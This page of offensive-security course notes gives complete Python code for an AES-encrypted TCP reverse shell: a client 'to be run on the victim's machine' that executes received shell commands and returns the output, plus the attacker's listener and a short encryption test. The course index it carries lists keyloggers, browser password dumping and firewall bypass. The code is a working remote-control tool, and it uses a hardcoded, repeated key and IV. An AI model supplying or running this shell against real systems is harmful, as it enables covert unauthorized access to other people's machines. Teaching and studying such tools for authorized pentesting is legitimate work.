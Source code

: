 ```yaml
---
title: TCP reverse shell with AES encryption
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - python
  - python pentesting
  - scripting
  - reverse shell
  - encryption
  - aes
---
```


# TCP reverse shell with AES encryption

From course: [Python For Offensive PenTest: A Complete Practical Course](https://www.udemy.com/course/python-for-offensive-security-practical-course/).

??? abstract "General index of the course"
	- Gaining persistence shells (TCP + HTTP):
		- [Coding a TCP connection and a reverse shell](coding-a-tcp-reverse-shell.md).
		- [Coding a low level data exfiltration  - TCP connection](coding-a-low-level-data-exfiltration-tcp.md).
		- [Coding an http reverse shell](coding-an-http-reverse-shell.md).
		- [Coding a data exfiltration script for a http shell](coding-a-data-exfiltration-script-http-shell.md).
		- [Tunning the connection attempts](tunning-the-connection-attemps.md).
		- [Including cd command into TCP reverse shell](including-cd-command-into-tcp-reverse-shell.md).
	- Advanced scriptable shells:
		- [Using a Dynamic DNS instead of your bared attacker public ip](ddns-aware-shell.md).
		- [Making your binary persistent](making-your-binary-persistent.md). 
		- [Making a screenshot](making-a-screenshot.md). 
		- [Coding a reverse shell that searches files](coding-a-reverse-shell-that-searches-files.md). 
	- Techniques for bypassing filters: 
		- [Coding a reverse shell that scans ports](coding-a-reverse-shell-that-scans-ports.md). 
		- [Hickjack the Internet Explorer process to bypass an host-based firewall](hickjack-internet-explorer-process-to-bypass-an-host-based-firewall).
		- [Bypassing Next Generation Firewalls](bypassing-next-generation-firewalls.md).
		- [Bypassing IPS with handmade XOR Encryption](bypassing-ips-with-handmade-xor-encryption.md).
	- Malware and crytography:
		- [TCP reverse shell with AES encryption](tcp-reverse-shell-with-aes-encryption.md).
		- [TCP reverse shell with RSA encryption](tcp-reverse-shell-with-rsa-encryption.md).
		- [TCP reverse shell with hybrid encryption AES + RSA](tcp-reverse-shell-with-hybrid-encryption-rsa-aes.md).
	- Password Hickjacking:
		- [Simple keylogger in python](python-keylogger.md).
		- [Hijacking Keepass Password Manager](hijacking-keepass.md).
		- [Dumping saved passwords from Google Chrome](dumping-chrome-saved-passwords.md).
		- [Man in the browser attack](man-in-the-browser-attack.md).
		- [DNS Poisoning](dns-poisoning.md).
	- Privilege escalation:
		- [Weak service file permission](privilege-escalation.md).


## Client side

To be run on the victim's machine.

```python
from Cryptodome.Cipher import AES
from Cryptodome.Util import Padding
import socket
import subprocess
key = b"H" * 32
IV = b"H" * 16

def encrypt(message):
    encryptor = AES.new(key, AES.MODE_CBC, IV)
    padded_message = Padding.pad(message, 16)
    encrypted_message = encryptor.encrypt(padded_message)
    return encrypted_message

def decrypt(cipher):
    decryptor = AES.new(key, AES.MODE_CBC, IV)
    decrypted_padded_message = decryptor.decrypt(cipher)
    decrypted_message = Padding.unpad(decrypted_padded_message, 16)
    return decrypted_message

def connect():
    s = socket.socket()
    s.connect(('192.168.0.152', 8080))
    while True:
        command = decrypt(s.recv(1024))
        if 'terminate' in command.decode():
             break
        else:
            CMD = subprocess.Popen(command.decode(), shell=True, stderr=subprocess.PIPE, stdin=subprocess.PIPE, stdout=subprocess.PIPE)
            s.send(encrypt(CMD.stdout.read()))
            

def main():
    connect()
main()

```


## Server side

```python
import socket

from Cryptodome.Cipher import AES
from Cryptodome.Util import Padding

IV = b"H" * 16 # this must match the block size, which is 16 byte
key = b"H" * 32 # 32 goes for AES 256

def encrypt(message):
    encryptor = AES.new(key, AES.MODE_CBC, IV)
    padded_message = Padding.pad(message, 16) # pad function is to add the necessary extra data to make sure that the size of the padded_message is 16 bytes or a multiple of 16. This is explained because cipher block chaining encryption uses blocks of 16bytes.
    encrypted_message = encryptor.encrypt(padded_message) 
    return encrypted_message

def decrypt(cipher):
    decryptor = AES.new(key, AES.MODE_CBC, IV)
    decrypted_padded_message = decryptor.decrypt(cipher)
    decrypted_message = Padding.unpad(decrypted_padded_message, 16)
    return decrypted_message

def connect():

    s = socket.socket()
    s.bind(('192.168.0.152', 8080))
    s.listen(1)
    conn, address = s.accept()
    print('[+] We got a connection')
    while True:

        command = input("Shell> ")
        if 'terminate' in command:
            conn.send(encrypt(b'terminate'))
            conn.close()
            break
        else:
            command = encrypt(command.encode())
            conn.send(command)
            print(decrypt(conn.recv(1024)).decode())
def main():
    connect()

main()

```


## Test

```python
# Python For Offensive PenTest: A Complete Practical Course - All rights reserved 
# Follow me on LinkedIn  https://jo.linkedin.com/in/python2


from Cryptodome.Cipher import AES
from Cryptodome.Util import Padding

key = b"H" * 32 #AES keys may be 128 bits (16 bytes), 192 bits (24 bytes) or 256 bits (32 bytes) long.
IV = b"H" * 16

cipher = AES.new(key, AES.MODE_CBC, IV)

message = "Hello"
paddedmessage = Padding.pad(message.encode(), 16)
encrypted = cipher.encrypt(paddedmessage)

print (encrypted)


decipher = AES.new(key, AES.MODE_CBC, IV)
paddeddecrypted = decipher.decrypt(encrypted)
unpaddedencrypted = Padding.unpad(paddeddecrypted, 16)

print(unpaddedencrypted.decode())

```